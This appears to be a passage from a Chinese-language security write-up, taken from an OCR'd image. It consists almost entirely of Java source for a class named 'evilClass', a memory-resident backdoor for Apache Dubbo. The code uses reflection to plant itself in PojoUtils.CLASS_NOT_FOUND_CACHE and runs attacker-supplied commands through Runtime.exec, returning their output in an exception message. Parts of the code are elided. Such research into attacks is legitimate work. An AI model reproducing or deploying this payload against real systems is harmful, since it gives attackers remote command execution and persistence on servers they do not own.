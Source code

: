 ```java
                Process p = Runtime.getRuntime().exec(key.toString().substring(5).split(" "));
                InputStream fis = p.getInputStream();
                InputStreamReader isr;
                if (key.toString().substring(4,5).equals("g")) {
                    isr = new InputStreamReader(fis,Charset.forName("GBK"));
                }else {
                    isr = new InputStreamReader(fis);
                }
                BufferedReader br = new BufferedReader(isr);
                String line = null;
                while((line = br.readLine()) != null) {
                    b.append(line+"\n");
                }
            }catch (Exception e){

            }
            b.append(CMD_SPLIT);
            throw new IllegalArgumentException(b.toString());
        }
        return m.containsKey(key);
    }

    @Override
    ......
    
    public evilClass(String a) throws Exception{

    }
    public evilClass() throws Exception{
        try {
            addClass();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void addClass() throws Exception{
        Field mo = Field.class.getDeclaredField("modifiers");
        mo.setAccessible(true);
        Field field = PojoUtils.class.getDeclaredField("CLASS_NOT_FOUND_CACHE");
        field.setAccessible(true);
        mo.setInt(field,field.getModifiers()&~Modifier.FINAL);
        field.set(null,new evilClass(""));
        System.out.println("add success");
    }

}
```

# 最终效果
